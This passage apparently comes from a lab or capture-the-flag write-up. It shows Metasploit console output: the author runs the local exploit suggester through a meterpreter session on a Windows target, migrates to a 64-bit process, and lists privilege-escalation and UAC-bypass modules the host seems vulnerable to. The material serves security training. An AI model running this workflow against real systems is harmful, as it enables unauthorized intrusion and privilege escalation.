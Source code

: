 ```


Interact with a module by name or index. For example info 6, use 6 or use post/osx/manage/sonic_pi

msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.129.49.137 - Collecting local exploits for x86/windows...
[*] 10.129.49.137 - 35 exploit checks are being tried...
[+] 10.129.49.137 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.129.49.137 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.129.49.137 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.129.49.137 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.129.49.137 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.129.49.137 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.129.49.137 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.129.49.137 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.129.49.137 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) > 
```
Now we checked x86 exploits. Lets migrate the meterpreter to a x64 version as well, just to see what we can find there. I run ps to see what processes are running, and then migrate to a x64 one.

```
meterpreter > migrate 1136
[*] Migrating from 3360 to 1136...
[*] Migration completed successfully.
meterpreter > background
[*] Backgrounding session 1...
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.129.49.137 - Collecting local exploits for x64/windows...
[*] 10.129.49.137 - 20 exploit checks are being tried...
[+] 10.129.49.137 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 10.129.49.137 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 10.129.49.137 - exploit/windows/local/cve_2019_1458_wizardopium: The target appears to be vulnerable.
[+] 10.129.49.137 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.129.49.137 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
[+] 10.129.49.137 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) > 
```
